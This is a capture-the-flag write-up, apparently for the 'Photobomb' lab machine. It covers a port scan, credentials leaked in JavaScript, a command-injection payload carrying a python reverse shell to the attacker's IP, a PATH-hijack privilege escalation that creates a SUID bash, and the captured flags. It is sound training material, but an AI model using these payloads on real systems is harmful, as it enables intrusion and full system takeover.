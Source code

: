 nmap scan:
```
┌─[✗]─[root@edu-virtualbox]─[/home/edu/HTB/photobomb]                                                           
└──╼ #nmap -A -p- 10.10.11.182 | tee scan.txt                                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-08 15:23 CET                                                 
Nmap scan report for 10.10.11.182                                                               
Host is up (0.014s latency).                                                                    
Not shown: 65533 closed tcp ports (reset)                                                       
PORT   STATE SERVICE VERSION              
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                             
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)                                                                                                                                   
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)                                                 
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)          
80/tcp open  http    nginx 1.18.0 (Ubuntu)                                                      
|_http-title: Did not follow redirect to http://photobomb.htb/             
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                     

```

Subdomain scans and gobuster turned up nothing
In the source code, we saw `photobomb.js` being ran, and we found the credentials for the `/printer` subdirectory.

/photobomb.js
```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

In `/printer`, we were stuck for a while, but I found the RCE in the `filetype` parameter:
```
photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;`ping 10.10.14.8 -c 5`&dimensions=30x20
```

For RCE, we used a `python3` reverse shell from revshells.:
```
photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;`export RHOST="10.10.14.8";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`&dimensions=30x20
```

Once on the system:
```
wizard@photobomb:~$ sudo -l                                                                                                                                              
Matching Defaults entries for wizard on photobomb:                                                                                                                       
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                    

User wizard may run the following commands on photobomb:                            
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Notice the `SETENV`, it means you can set environment variables like `PATH`

`/opt/cleanup.sh`
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```
`find` was being called without a set path, so using the `SETENV` for `PATH` you can hijack the `find` executable.

```
wizard@photobomb:~$ nano find
wizard@photobomb:~$ chmod +x find 
```
`/home/wizard/find`:
```
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

And after running `sudo PATH="$PWD:$PATH" /opt/cleanup.sh`, `/tmp/root` appeared with the SUID bit set, so after executing `/tmp/bash -p` we were root.

```
bash-5.0# cat /home/wizard/user.txt 
12fa09822f4e11da5379c9e132633b10
bash-5.0# cat /root/root.txt 
e61a917ecd3b5166288f4647d6cc25ad
```